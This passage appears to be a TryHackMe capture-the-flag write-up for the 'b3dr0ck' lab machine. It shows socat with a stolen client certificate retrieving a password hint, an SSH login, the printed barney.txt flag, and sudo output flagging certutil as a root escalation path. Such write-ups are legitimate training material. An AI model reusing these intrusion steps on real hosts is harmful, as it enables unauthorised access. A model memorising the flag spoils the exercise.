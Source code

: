 Moving on to that weird 9009 service

```bash
telnet 10.10.250.157 9009
```
It asks me for certificate or private key. I'll take both. Thank you!
typing "password" gave me this
```
socat stdio ssl:MACHINE_IP:54321,cert=<CERT_FILE>,key=<KEY_FILE>,verify=0
```
```bash
socat stdio ssl:10.10.250.157:54321,cert=clnt_id,key=rsa_id,verify=0
```

**Results**
```
2025/06/27 21:56:41 socat[42744] W refusing to set empty SNI host name


 __     __   _     _             _____        _     _             _____        _ 
 \ \   / /  | |   | |           |  __ \      | |   | |           |  __ \      | |
  \ \_/ /_ _| |__ | |__   __ _  | |  | | __ _| |__ | |__   __ _  | |  | | ___ | |
   \   / _` | '_ \| '_ \ / _` | | |  | |/ _` | '_ \| '_ \ / _` | | |  | |/ _ \| |
    | | (_| | |_) | |_) | (_| | | |__| | (_| | |_) | |_) | (_| | | |__| | (_) |_|
    |_|\__,_|_.__/|_.__/ \__,_| |_____/ \__,_|_.__/|_.__/ \__,_| |_____/ \___/(_)
                                                                                 
                                                                                 

Welcome: 'Barney Rubble' is authorized.
b3dr0ck> ls
Unrecognized command: 'ls'

This service is for login and password hints
b3dr0ck> password
Password hint: d1ad7c0a3805955a35eb260dab4180dd (user = 'Barney Rubble')
b3dr0ck> 
```
## Initial Foothold

I should be able to ssh in as barney

```bash
ssh barney@10.10.250.157
cat barney.txt 
THM{f05780f08f0eb1de65023069d0e4c90c}
```

**Q. What is the barney.txt flag?
A. THM{f05780f08f0eb1de65023069d0e4c90c}

```bash
sudo -l
```
**Results**
```
Matching Defaults entries for barney on b3dr0ck:
    insults, env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User barney may run the following commands on b3dr0ck:
    (ALL : ALL) /usr/bin/certutil

```
cool I can use certutil as root
